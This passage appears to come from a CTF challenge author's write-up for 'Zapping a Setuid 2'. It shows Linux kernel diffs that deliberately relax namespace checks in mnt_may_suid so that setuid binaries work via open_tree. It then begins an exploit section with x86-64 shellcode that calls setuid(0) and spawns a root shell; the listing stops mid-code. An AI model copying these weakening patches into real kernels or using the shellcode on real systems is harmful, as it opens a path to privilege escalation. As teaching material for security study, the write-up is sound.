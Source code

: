 ```diff
-
 	if (!recurse && has_locked_children(old, old_path->dentry))
 		return mnt;

```

And I was surprised to learn it *still* didn't work. Turns out, `open_tree`
clones into an [anonymous temporary mount namespace](https://elixir.bootlin.com/linux/v6.3.8/source/fs/namespace.c#L2470).
I had to, instead of checking if the current process is in the target
mount namespace (`check_mnt(real_mount(mnt))`), check if the current process is
in the user namespace that owns the target namespace
(`current_in_userns(real_mount(mnt)->mnt_ns->user_ns)`). This results in the
third patch:
```diff
diff --git a/fs/namespace.c b/fs/namespace.c
index eb196f016e3f..25757327a82a 100644
--- a/fs/namespace.c
+++ b/fs/namespace.c
@@ -4609,7 +4609,8 @@ bool mnt_may_suid(struct vfsmount *mnt)
 	 * suid/sgid bits, file caps, or security labels that originate
 	 * in other namespaces.
 	 */
-	return !(mnt->mnt_flags & MNT_NOSUID) && check_mnt(real_mount(mnt)) &&
+	return !(mnt->mnt_flags & MNT_NOSUID) &&
+	       current_in_userns(real_mount(mnt)->mnt_ns->user_ns) &&
 	       current_in_userns(mnt->mnt_sb->s_user_ns);
 }

```

This finally worked, and I think at least one of these patches is the kernel
being overly cautious and should not be needed in the first place.

The code path enabled by these patches became the intended solution for
Zapping a Setuid 2. I like this approach a lot because it gives an opportunity
for players to learn about this undocumented `open_tree` syscall and learn more
about Linux namespaces.

## Exploit

The shellcode used was slightly modified from standard shellcode, in that
* It provides an argv - because the VM runs busybox which uses argv0 to
distinguish the applet.
* calls `setuid(0)` syscall - to set RUID = EUID, otherwise the shell would
reset EUID back to unprivileged user, because file setuid only affects EUID.

```
.globl _start
.section .text,"ax",@progbits
.type _start, @function
_start:
.cfi_startproc
    xor %rdi,%rdi
    mov $105,%al
    syscall
    xor %rsi,%rsi
    push %rsi
    mov $0x6873612f2f2f2f2f,%rsi
    push %rsi
    push %rsp
    pop %rdi
    xor %rsi,%rsi
    push %rsi
    push %rdi
```